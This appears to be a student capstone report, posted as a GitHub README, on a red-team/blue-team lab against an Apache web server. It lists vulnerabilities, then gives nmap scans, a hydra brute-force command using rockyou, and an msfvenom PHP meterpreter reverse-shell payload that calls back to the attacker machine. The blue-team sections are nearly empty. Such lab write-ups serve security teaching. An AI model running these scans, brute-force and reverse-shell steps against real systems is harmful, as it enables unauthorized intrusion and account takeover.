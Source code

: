 ## Capstone Red vs Blue CySec Report

Author: Min Young Lee

## Preface
This is a cybersecurity project report on a network vulnerability.  There are two parts of this project: the attacker (Red Team) and the victim (Blue Team).  The Red Team is tasked with identifying vulnerabilities in the network and exploiting the found vulnerabilities.  The Blue Team is tasked with detecting malicious activities on the network and mitigating the identified malicious attacks.  

## Network Topology

![](img url)

| Hostname| IP Address | Role on Network |
| ------------------ | ------------------ |------------------ |
|ML-RefVM-684427| 192.168.1.1 | NATSwitch|
|Capstone |192.168.1.105 |Web server|
|Kali |192.168.1.90 |Pen. test system|
|ELK |192.168.1.100| SIEM system|

# Red Team
## Recon
## Vulnerability Assessment 

|Vulnerability| Description| Impact|
| ------------------ | -------- |------------------ |
|Apache Directory Listing CVE-2007-0450|Allows browser traversal to realdirectories on Capstone Apacheweb server|Allowed attackers to reveal the ip address and the secret folder|
|No Failed Login Lockout| No account lockdown when excessive login failures occurred within a short period of time| Brute force attack was possible to gain access to Ryan’s login information |
|Weak Password| The password was available on a common password library such as “rockyou”| The brute force attack was able to identify the login password.|
|Reverse Shell Backdoor CVE-2019-13386| Allows to send a reverse shell payload on a web server while the firewalls do not detect the payload |Attackers gained the remote backdoor access to the Capstone web server|
|Weak Hashed Password |Unsalted hashed information which can be decrypted using various web applications to decode |The hashed information, the CEO login information, was decoded.  |
|Simplistic Username| Usage of the common names or real names as a login ID |By having an access to the directory, the attack was able to identify the login IDs |
|Root Accessibility| The anonymous commands has an access to the resources |The attacker was able to connect to devices|
|Unencrypted Credentials |The stored values of usernames and passwords, both passwords and the hashed passwords, were in a plain text |The attacker was able to gain access to the login IDs and passwords|

## Exploitation(s) 
### Apache Directory Listing CVE-2007-0450
	netdiscover -r 192.168.1.255/16

	nmap -sV 192.168.1.1-105

	nmap -sS -A 192.168.1.105

	wget 192.168.1.105 /meet_our_team/ashton.txt

### No Failed Login Lockout
	hydra -l ashton -P /usr/share/wordlists/rockyou .txt -s 80 -f -vV 192.168.1.105 http-get/company_folders/secret_folder/ -t 60

### Reverse Shell Backdoor CVE-2019-13386
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php

Login to webdav as Ryan to move the payload
Listen to host: 192.168.1.90 & port:4444

	meterpreter> shell
	>find / -name flag.txt 2>/dev/null
	>cat flag.txt

# Blue Team
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/brutefoce_evidence.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/identfy_scan.png?raw=true)
![](https://github.com/ActualSalt/Capstone-Red-vs-Blue-CySec-Report/blob/main/images/request_hidden_directory.png?raw=true)
## Vulnerability Analysis 
### Hardening


# Assessment Summary 

| ** Red Team ** | ** Blue Team ** |
| -------------- | --------------- |

